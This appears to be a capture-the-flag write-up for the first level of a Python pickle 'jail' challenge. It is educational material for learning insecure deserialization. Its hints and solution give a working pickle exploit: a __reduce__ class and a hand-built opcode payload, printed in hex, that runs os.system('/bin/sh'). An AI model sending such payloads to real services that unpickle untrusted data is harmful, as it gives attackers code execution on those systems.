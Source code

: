 # jail 1

## restrictions

none

## hints

<details>
    <summary>Hint 1</summary>

Try searching "python pickle exploit" on google.

</details>

<details>
    <summary>Hint 2</summary>

If you can read python well, take a look at [pickle.py](https://github.com/python/cpython/blob/3.9/Lib/pickle.py) from the python source code. I think the REDUCE opcode will be helpful here.

</details>

<details>
    <summary>Hint 3</summary>

```python
import os

class RCE:
    def __reduce__(self):
        return os.system, ('/bin/sh',)
```

</details>

<details>
    <summary>Solution & Explanation</summary>

tl;dr - `exec("__import__('os').system('/bin/sh')")`

solve.py
```py
from pickle import *
from pickletools import dis

p = b""

p += PROTO
p += b'\x05'
p += GLOBAL
p += b'builtins\n'
p += b'exec\n'
p += STRING
p += b'"__import__(\'os\').system(\'/bin/sh\')"\n'
p += TUPLE1
p += REDUCE
p += STOP

dis(p)
print("="*50)
print(p.hex())

```

output
```
    0: \x80 PROTO      5
    2: c    GLOBAL     'builtins exec'
    17: S    STRING     "__import__('os').system('/bin/sh')"
    55: \x85 TUPLE1
    56: R    REDUCE
    57: .    STOP
highest protocol among opcodes = 2
==================================================
8005636275696c74696e730a657865630a53225f5f696d706f72745f5f28276f7327292e73797374656d28272f62696e2f73682729220a85522e
```

### explanation:

`    0: \x80 PROTO      5`

Every pickle should start with a PROTO opcode, followed by a bytes representation of the protocol version (e.g. `\x05` for protocol version 5)

`    2: c    GLOBAL     'builtins exec'`

Second, we import builtins in the background and retrieve the exec function, which is used to execute code.

`    17: S    STRING     "__import__('os').system('/bin/sh')"`

We retrieve the string `"__import__('os').system('/bin/sh')"` that we will use to execute code later

`    55: \x85 TUPLE1`

We wrap that string inside of a tuple, because the python pickle uses the spread operator (`*args`) with the argument iterable.

`    56: R    REDUCE`

The REDUCE opcode calls the 2nd highest item on the stack (a function), which is builtins.exec, with the argument of the topmost item on the stack (an iterable). So, `builtins.exec("__import__('os').system('/bin/sh')")`

`    57: .    STOP`

Every pickle stops with the STOP opcode. The stack must have one object on top of it by the end, something to retrieve from the deserialization. The exec() function puts a None on the stack as the only item on the stack, so we don't have to worry about having one final item on the stack.

</details>
